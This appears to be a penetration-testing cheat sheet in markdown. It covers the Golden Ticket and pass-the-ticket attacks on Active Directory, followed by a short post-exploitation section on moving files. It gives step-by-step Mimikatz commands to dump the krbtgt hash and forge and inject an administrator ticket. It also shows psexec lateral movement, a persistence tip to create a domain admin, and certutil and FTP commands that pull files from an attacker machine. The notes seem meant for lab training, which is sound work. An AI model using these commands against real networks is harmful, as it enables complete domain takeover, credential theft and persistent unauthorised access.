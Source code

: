 ### Golden Ticket Attack and Pass The Ticket Attack

### What is a Golden Ticket and why do we care?

- we dumped the KDC's TGT account, that's the Kerberos Ticket Granting Ticket account that allows us to generate tickets
- what is we have the hash of that account, guess who's got to generate Kerberos Ticket Granting Tickets? We are :)
- With that we will have complete access to the entire Domain, all the machines!

### Golden Ticket Attack with Mimikatz

- `mimikatz.exe`
- `privilege::debug`
- `lsadump::lsa /inject /name:krbtgt`
- open up a note pad and copy from output: SID and the NTLM hash
- `kerberos::golden /User:Administrator /domain:marvel.local /sid:<copy it from notepad> /krbtgt:<copy the hash from notepad> /id:500 /ptt`
- ***id:500*** is the ID of an admin account and ***/ptt*** is for ***pass the ticket***
- we are generating a golden ticket and then will pass that ticket along to our current session and utilize it to open up a command prompt and access any computer on the network we want
- `misc::cmd` this will pop up a cmd window and in that window we are utilizing the Golden Ticket that we just created
- to take this a step furter we could download ***psexec.py*** to this computer hence this was the whole intent of the creation of psexec, to access computers `psexec.exe \\THEPUNISHER cmd.exe`
- **persistence:** once you own a Golden Ticket you can create a new user, make it a domain admin, most systems are picking it up, try better with a ***silver ticket***

![https://github.com/encryptedninja/command-center/raw/master/Windows_AD/images/golden_ticket_attack.png](https://github.com/encryptedninja/command-center/raw/master/Windows_AD/images/golden_ticket_attack.png)

### Additional Recourses

- **[AD Security](https://adsecurity.org/)** (free)
- **[Harmj0y](https://blog.harmj0y.net/)** (free)
- **[Pentester Academy Active Directory Labs](https://www.pentesteracademy.com/activedirectorylab)** (paid)
- **[Pentester Academy RedTeam Labs](https://www.pentesteracademy.com/redteamlab)** (paid)

## Post Exploitation

### File Transfers Review

- Certutil: `certutil -urlcache -f http://<source IP>/file.txt file.txt`
- HTTP: `python3 -m http.server 80`
- Browser: navigate directly to file
- FTP: `python -m pyftpdlib 21` on attacker machine
- grab a file from attacker machine's FTP: `ftp <IP attacker machine's IP>
- Linux `wget`
- Metasploit use the ***upload*** and/or ***download*** feature

### Maintaining Access
